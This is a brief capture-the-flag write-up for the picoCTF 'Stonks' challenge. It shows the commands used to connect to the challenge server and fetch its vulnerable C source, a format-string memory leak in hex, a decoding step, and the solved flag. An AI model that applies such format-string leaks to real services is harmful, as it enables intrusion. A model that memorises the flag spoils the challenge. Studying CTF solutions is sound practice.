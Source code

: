 # Stonks

Laurent Chauvin | October 26, 2022

## Resources

## Progress 

```
nc mercury.picoctf.net 20195
wget https://mercury.picoctf.net/static/e4d297ce964e4f54225786fe7b153b4b/vuln.c
python3 generate_format_string_payload.py [enter the payload in API token]
```

Output:
```
8a413b0-804b000-80489c3-f7f31d80-ffffffff-1-8a3f160-f7f3f110-f7f31dc7-0-8a40180-1-8a41390-8a413b0-6f636970-7b465443-306c5f49-345f7435-6d5f6c6c-306d5f79-5f79336e-35343036-64303664-fff1007d-f7f6caf8-f7f3f440-d93cbf00-1-0-f7dcece9-f7f400c0-f7f315c0-f7f31000-fff13ab8-f7dbf68d-f7f315c0-8048eca-fff13ac4-0-f7f53f09-804b000-f7f31000-f7f31e20-fff13af8-f7f59d50-f7f32890-d93cbf00-f7f31000-804b000-fff13af8-8048c86-8a3f160-fff13ae4-fff13af8-8048be9-f7f313fc-0-fff13bac-fff13ba4-1-1-8a3f160-d93cbf00-fff13b10-0-0-f7d74fa1-f7f31000-f7f31000-0-f7d74fa1-1-fff13ba4-fff13bac-fff13b34-1-0-f7f31000-f7f5470a-f7f6c000-0-f7f31000-0-0-7484d393-386c3583-0-0-0-1-8048630-0-f7f59d50-f7f54960-804b000-1-8048630-0-8048662-8048b85-

```

Paste in decode.py

```
python3 decode.py | grep "picoCTF{.*}"
```

## Flag

picoCTF{I_l05t_4ll_my_m0n3y_6045d60d}


